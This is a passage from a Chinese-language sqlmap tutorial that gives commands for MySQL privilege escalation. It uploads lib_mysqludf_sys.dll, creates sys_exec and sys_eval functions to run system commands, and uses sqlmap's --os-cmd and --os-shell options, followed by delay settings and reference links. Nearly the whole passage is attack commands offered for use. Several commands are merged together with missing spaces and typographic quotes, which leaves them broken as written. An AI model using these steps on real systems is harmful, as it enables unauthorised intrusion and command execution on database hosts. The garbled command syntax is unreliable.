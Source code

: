 ###  16.mysql提权

（1）连接mysql数据打开一个交互shell:



```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --sql-shellselect @@version;select @@plugin_dir;d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\
```



（2）利用sqlmap上传lib_mysqludf_sys到MySQL插件目录:



```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --file-write=d:/tmp/lib_mysqludf_sys.dll--file-dest=d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\lib_mysqludf_sys.dllCREATE FUNCTION sys_exec RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'CREATE FUNCTION sys_eval RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'select sys_eval('ver'); 
```



### 17.执行shell命令

sqlmap.py -u “url” –os-cmd=”netuser” /*执行net user命令*/

sqlmap.py -u “url” –os-shell /*系统交互的shell*/

### 18.延时注入



```
sqlmap –dbs -u"url" –delay 0.5 /*延时0.5秒*/
sqlmap –dbs -u"url" –safe-freq /*请求2次*/
```



参考文章：

http://sqlmap.org/

https://github.com/sqlmapproject/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki

https://sobug.com/article/detail/2

https://blog.xiaohack.org/1378.html